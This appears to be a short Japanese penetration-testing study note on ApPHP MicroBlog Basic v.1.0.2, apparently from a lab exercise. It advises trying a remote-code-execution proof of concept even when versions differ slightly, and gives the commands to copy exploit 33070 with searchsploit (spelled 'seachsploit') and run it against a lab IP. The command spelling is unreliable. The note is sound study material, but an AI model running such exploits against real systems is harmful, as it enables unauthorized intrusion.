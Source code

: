 

### ApPHP MicroBlog

バージョンが異なるがRCEのPoCが刺さる。バージョンが近い場合は厳密に違う（上位バージョン）場合でも、PoCを試してみるべきという観点は必要

```
ApPHP MicroBlog Basic v.1.0.2
```

![image-20230225103058008](img/webapplication/image-20230225103058008.png)

```bash
seachsploit -m 33070
```

```bash
python 33070.py http://10.11.1.223/index.php    
```

